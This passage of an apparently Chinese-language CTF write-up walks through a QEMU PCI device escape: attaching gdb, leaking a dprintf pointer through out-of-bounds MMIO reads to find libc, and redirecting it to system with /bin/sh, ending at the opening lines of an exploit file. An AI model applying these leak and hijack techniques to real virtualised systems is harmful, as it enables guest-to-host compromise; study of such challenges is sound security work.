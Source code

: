 

然后拷到 [nopwndocker](https://github.com/MuelNova/NoPwnDocker) 里，我们开两个窗口

```bash
# T1
LD_LIBRARY_PATH=./my_libs ./run.sh

# T2
#!/bin/sh
PID=$(ps -a | grep qemu | awk '{print $1}')

if [ -z "$PID" ]; then
    echo "No qemu process found"
    exit 1
fi

gdb -p $PID -x gdbscript
```



可以看到大概是这样的

```bash
index = 0,
  buffer = {0 <repeats 16 times>},
  log_handler = 0x7faa43e0d140 <dprintf>,
  log_fd = 2,
  log_arg = 0,
  log_format = '\000' <repeats 127 times>,
  status = 0
}
pwndbg> p *(CCBPCIDevState *)0x00005642fdea5ee0
```

这里有一个 dprintf 的指针，我们看看能不能拿到它，简单计算一下 offset（每个 uint32），我们用 `0x11` 即可。

```c
mmio_write(0, 0x11);
mmio_read(4);
printf("mmio_read(4) = 0x%x\n", mmio_read(4));

// mmio_read(4) = 0xf4bec140
```

显然拿到了，不过一次拿一个 uint32，所以我们要再往前读一点，然后计算 libc 基址，然后拿到 system 上去，对于 /bin/sh 也是一样，不再赘述。

### exp

```c
#include <sys/io.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/types.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc010;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}
```